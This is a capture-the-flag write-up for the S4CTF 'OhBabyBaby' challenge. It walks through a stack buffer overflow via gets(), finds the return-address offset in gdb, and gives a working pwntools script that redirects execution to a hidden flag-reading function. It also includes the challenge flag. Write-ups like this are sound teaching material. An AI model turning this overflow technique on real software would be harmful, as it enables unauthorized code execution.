 # OhBabyBaby


## Description
If you don't solve this, Dennis Ritchie will be really heartbroken :(
nc 185.14.184.242 12990

## Files provided
A zip containing [binary](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/ohbabybaby) and [source](https://gist.github.com/TheRealOddCoder/dda04fa1d757f91bb0d5ff7f0c1fa673) is provided

## Writeup
Looking at the source, we can see there is a **ultimatePrize()** that reads **flag.txt**. But this function is never called.
Also, there is **gets()** in **prize()**.

Runnning the binary, we encounter a two scanf() and the memory location of the flag function is displayed. So, to get the flag we need to overflow the buffer in prize() and **rewrite the instruction pointer (rip)** to point to the address of ultimatePrize().
<br/><br/>


![image](https://user-images.githubusercontent.com/42334661/115984164-7e53e880-a55a-11eb-96c8-45c2407a1ba4.png)
<br/><br/>

The buffer size is 64. In gdb, I passed 80 bytes of 'A' to check for segmentation fault. We see a sigsegv and **rip is overwritten** 
<br/><br/>

![sigsegv](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv.png)
<br/><br/>

both **$rbp** and **$rip** are overwritten with **8 bytes** and **6 bytes** respectively. Of the **80 bytes** sent, `14bytes` are overwritten in `rbp` and `rip` meaning that buffer takes up `66 bytes`. Of the `66 bytes`, **2 bytes** are used up in *scanf()*.
<br/><br/>
This is what I thought initially.
- buffer --> 64+2 bytes
- $rbp --> 8 bytes $rip --> 6 bytes

But boy I was wrong. 
<br/>
After a few trial and error, **$rip was overwritten** by anything after 72 bytes of data. That is,
- buffer --> 64 bytes
- $rbp --> 8 bytes
<br/>
To check this, I passed in *72 bytes of 'A' and 2 bytes of 'B'*. And rip was overwritten by *'BB'* (the 73rd and 74th byte in input)


![sigsev](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv_2.png)
<br/><br/>

## Payload
Let's construct a payload with `pwntools` locally
<br/><br/>

```
from pwn import *

bof = b"A"*72
conn = process('./ohbabybaby')
data = conn.recvuntil(".....................................Tap Tap to see your prize!!....................................\n").decode("utf-8")
print(data)
conn.sendline("A")   # so that we can see the address of ultimatePrize
data = conn.recvuntil("............................................Did you enjoy?..........................................").decode("utf-8")
conn.recvuntil("\n")
print(data)
address = "0x"+data.split("0x")[1][:12]
print(address)
conn.recvline()
#conn.sendline(b"A"*72 + p64(int(address, 16)))

try:
    conn.sendline(bof + p64(int(address, 16)))
    print(conn.recvall().decode("utf-8"))
except:
    print("error!\n")
    print(conn.recvall().decode("utf-8"))
```
<br/><br/>

![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/flag.png)
<br/><br/>
The flag function is accessed!!
Modifying the code to connect to remote address, we get the flag
<br/><br/>
![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/Screenshot%20from%202021-04-25%2001-30-36.png)
<br/><br/>

## Flag
S4CTF{W311_D0n3_f0r_th3_3xpl0it_Vuln3rability_i5_aws0m3!!}
